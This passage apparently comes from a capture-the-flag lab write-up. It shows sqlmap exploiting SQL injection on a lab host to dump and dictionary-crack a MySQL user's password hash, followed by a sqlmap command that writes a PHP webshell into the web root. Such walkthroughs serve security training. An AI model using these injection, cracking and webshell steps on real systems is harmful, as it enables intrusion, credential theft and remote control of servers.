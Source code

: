     [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    [15:06:01] [INFO] retrieved: ''DBadmin'@'localhost''
    database management system users [1]:
    [*] 'DBadmin'@'localhost'

    [15:06:01] [INFO] fetching database users password hashes
    [15:06:02] [INFO] used SQL query returns 1 entry
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
    do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y
    [15:06:02] [INFO] using hash method 'mysql_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [15:06:02] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] N
    [15:06:02] [INFO] starting dictionary-based cracking (mysql_passwd)
    [15:06:02] [INFO] starting 3 processes
    [15:06:08] [INFO] cracked password 'imissyou' for user 'DBadmin'
    database management system users password hashes:
    [*] DBadmin [1]:
        password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
        clear-text password: imissyou

    [15:06:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'

    [*] ending @ 15:06:17 /2019-06-28/



I can use that to do the same phpmyadmin attack as shown above. But I
can also use it to write a webshell:



    root@kali# sqlmap -u http://10.10.10.143:80/room.php?cod=1 --random-agent --level 1 --risk 1  --batch --file-write /opt/shells/php/cmd.php --file-dest /var/www.md/0xdf.php
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.3.4#stable}
    |_ -| . [.]     | .'| . |
    |___|_  [.]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
